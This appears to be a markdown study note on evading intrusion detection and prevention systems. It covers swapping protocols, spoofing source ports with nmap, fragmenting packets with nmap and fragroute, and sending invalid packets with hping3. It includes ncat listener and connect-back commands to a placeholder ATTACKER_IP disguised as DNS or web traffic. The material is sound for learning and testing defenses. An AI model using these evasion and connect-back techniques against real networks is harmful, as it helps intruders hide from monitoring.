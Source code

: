 # Evasion via protocol manipulation

 Evasion via protocol manipulation includes:

* Relying on a different protocol
* Manipulating (Source) TCP/UDP port
* Using session splicing (IP packet fragmentation)
* Sending invalid packets

## Rely on a different protocol

The IDS/IPS system might be configured to block certain protocols and allow others. For example, using UDP instead of 
TCP or relying on HTTP instead of DNS to deliver an attack or exfiltrate data. It depends on the target and the 
applications necessary for the target organisation to design the attack. For example, if web browsing is allowed, it 
usually means that protected hosts can connect to ports 80 and 443 unless a local proxy is used. A client relying on 
Google services for their business, can be attacked using Google web hosting to conceal a malicious site. 

Not a one-size-fits-all, and some trial and error might be necessary (do not create too much noise).

In case of an IPS set to block DNS queries and HTTP requests, enforcing a policy where local machines cannot query 
external DNS servers but instead query the local DNS server; moreover, and enforcing secure HTTP communications while
being relatively permissive when it comes to HTTPS, using HTTPS to tunnel traffic looks like a promising approach to 
evade the IPS.

### Ncat

Ncat by default, uses a TCP connection, and can be set to use UDP using the option `-u`

To listen using UDP (where port number is the listen port):
 
    ncat -ulvnp PORT_NUM 

To connect to an Ncat instance listening on a UDP port: 

    nc -u TARGET_IP PORT_NUM

* Running `ncat -lvnp 25` on the attacker system and connecting to it will give the impression that it is a usual 
TCP connection with an SMTP server, **unless the IDS/IPS provides deep packet inspection (DPI)**.
* Executing `ncat -ulvnp 162` on the attacker machine and connecting to it will give the illusion that it is a regular 
UDP communication with an SNMP server **unless the IDS/IPS supports DPI**.

## Manipulate (Source) TCP/UDP port

The TCP and UDP source and destination ports are inspected even by the most basic security solutions. 
**Without deep packet inspection**, the port numbers are the primary indicator of the service used: 
network traffic involving TCP port 22 would be interpreted as SSH traffic unless the security solution can analyse 
the data carried by the TCP segments.

### Nmap

Add the option `-g PORT_NUMBER` (or `--source-port PORT_NUMBER`) to make Nmap send all its traffic from a specific 
source port number.

For example, use `nmap -sS -Pn -g 80 -F MACHINE_IP` to make the port scanning traffic appear to be exchanged with an 
HTTP server at first glance. When scanning UDP ports, use `nmap -sU -Pn -g 53 -F MACHINE_IP` to make the traffic 
appear to be exchanged with a DNS server.

### Ncat

Trying to camouflage the traffic as if it is DNS traffic:

* On the attacker machine, to use Ncat to listen on UDP port 53 (as a DNS server would), use `ncat -ulvnp 53`.
* On the target, connect back to the listening server using `ncat -u ATTACKER_IP 53`.

To make it appear more like web traffic where clients communicate with an HTTP server:

* On the attacker machine, to get Ncat to listen on TCP port 80, like a benign web server, you can use `ncat -lvnp 80`.
* On the target, connect to the listening server using `nc ATTACKER_IP 80`.

## Use session splicing (IP packet fragmentation)

Another approach possible in IPv4 is IP packet fragmentation (session splicing). The assumption is that if you break 
the packet(s) related to an attack into smaller packets, you will avoid matching the IDS signatures. If the IDS is 
looking for a particular stream of bytes to detect the malicious payload, divide the payload among multiple packets. 
Unless the IDS reassembles the packets, the rule won’t be triggered.

### Nmap

Nmap offers a few options to fragment packets. Add:

* `-f` to set the data in the IP packet to 8 bytes.
* `-ff` to limit the data in the IP packet to 16 bytes at most.
* `--mtu SIZE` to provide a custom size for data carried within the IP packet. The size should be a multiple of 8.

Suppose you want to force all your packets to be fragmented into specific sizes. In that case, consider using a 
program such as [Fragroute](https://www.monkey.org/~dugsong/fragroute/). It can be set to read a set of rules from a 
given configuration file and applies them to incoming packets. For simple IP packet fragmentation, it would be 
enough to use a configuration file with `ip_frag SIZE` to fragment the IP data according to the provided size. 
**The size must be a multiple of 8**.

For example, you can create a configuration file `fragroute.conf` with one line, `ip_frag 16`, to fragment packets 
where IP data fragments do not exceed 16 bytes. Then run the command `fragroute -f fragroute.conf HOST`. 
The `HOST` is the destination to which to send the fragmented packets to.

## Sending invalid packets

The response of systems to valid packets **tends** to be predictable. It can be unclear how systems will respond to 
invalid packets. For example, an IDS/IPS might process an invalid packet, while the target system might ignore it. 
The exact behaviour requires some experimentation or inside knowledge.

Nmap makes it possible to create invalid packets in a many ways. Two common options are to scan the target using 
packets that have:

* Invalid TCP/UDP checksum
* Invalid TCP flags

Nmap allows for sending packets with a wrong TCP/UDP checksum using the option `--badsum`. An incorrect checksum 
indicates that the original packet has been altered somewhere across its path from the sending program.

Nmap also allows for sending packets with custom TCP flags, including invalid ones. The option `--scanflags` allows
for setting flags:

* `URG` for Urgent
* `ACK` for Acknowledge
* `PSH` for Push
* `RST` for Reset
* `SYN` for Synchronize
* `FIN` for Finish

To craft packets with custom fields (valid or invalid), consider a tool such as [hping3](http://www.hping.org/). A 
few example options:

* `-t` or `--ttl` to set the Time to Live in the IP header.
* `-b` or `--badsum` to send packets with a bad UDP/TCP checksum.
* `-S`, `-A`, `-P`, `-U`, `-F`, `-R` to set the TCP `SYN`, `ACK`, `PUSH`, `URG`, `FIN`, and `RST` flags, respectively.

## Resources

* [EV: IDS Evasion via TCP/IP Packet Manipulation](https://github.com/TomAPU/ev)


